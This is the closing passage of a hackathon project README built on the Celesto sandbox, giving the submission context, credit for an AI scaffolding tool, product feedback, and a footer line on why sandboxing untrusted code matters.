| [`reports/capabilities.json`](reports/capabilities.json) | Celesto capability justifications |

---

## 🏆 Hackathon Context

This project is a submission for the **[Celesto AI Track — Global Placement Program #42](https://app.partnr.network)**, an offline version of the [Universal Hackathon at AWS Builder Loft, San Francisco](https://luma.com/lfjtdq6b).

**AI tools used:** Antigravity (Google DeepMind) — used for scaffolding. All architecture decisions, tradeoffs, and design rationale are my own and I can explain every line.

**Honest product feedback for Celesto:**
- The SmolVM → Celesto rename left stale docs — `smolvm` appears in error messages
- Free trial's 1-sandbox limit needs prominent docs callout near the eval guidance
- `celesto doctor` is excellent — caught missing KVM module immediately

---

<div align="center">

**Built with 🛡️ for the Celesto Hackathon · 2026**

*If you replaced Celesto with `subprocess.run()`, the fork bomb would crash your server.*
*That's why the sandbox is essential, not decorative.*

</div>
